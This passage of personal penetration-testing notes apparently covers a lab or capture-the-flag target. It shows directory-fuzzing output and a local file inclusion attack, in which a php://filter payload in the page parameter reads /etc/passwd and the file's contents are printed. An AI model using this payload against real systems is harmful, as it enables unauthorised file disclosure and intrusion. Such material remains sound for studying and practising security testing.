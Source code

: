 ```
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 9309, Words: 694, Lines: 190, Duration: 190ms]
    * FUZZ: about

[Status: 200, Size: 15757, Words: 2933, Lines: 348, Duration: 190ms]
    * FUZZ: home

[Status: 200, Size: 9131, Words: 1066, Lines: 187, Duration: 183ms]
    * FUZZ: services
[Status: 200, Size: 7283, Words: 419, Lines: 213, Duration: 185ms]
    * FUZZ: signup

[Status: 200, Size: 7507, Words: 439, Lines: 218, Duration: 2926ms]
    * FUZZ: contact

[Status: 200, Size: 14352, Words: 4971, Lines: 307, Duration: 185ms]
    * FUZZ: portfolio

[Status: 200, Size: 6655, Words: 375, Lines: 195, Duration: 183ms]
    * FUZZ: signin

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 186ms]
    * FUZZ: 

:: Progress: [207629/207629] :: Job [1/1] :: 219 req/sec :: Duration: [0:16:12] :: Errors: 0 ::
```
- Located hidden directory `http://$RHOST/signin.html`
	- Contains a register page which I tried to create an account but was not able to sign in after?
		- testtest@hbci.com:password
	- SPENT ALONG TIME HERE AND IT SEEMS THE PAGE GOES NO WHERE AND SENDS ALL ITS INFO NO WHERE!!!







---

# Exploitation
## [[LFI|Local File Inclusion]]
#### The following are executed here http://10.10.16.56/index.php?page=php://filter/resource=
- /etc/passwd
```bash
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
```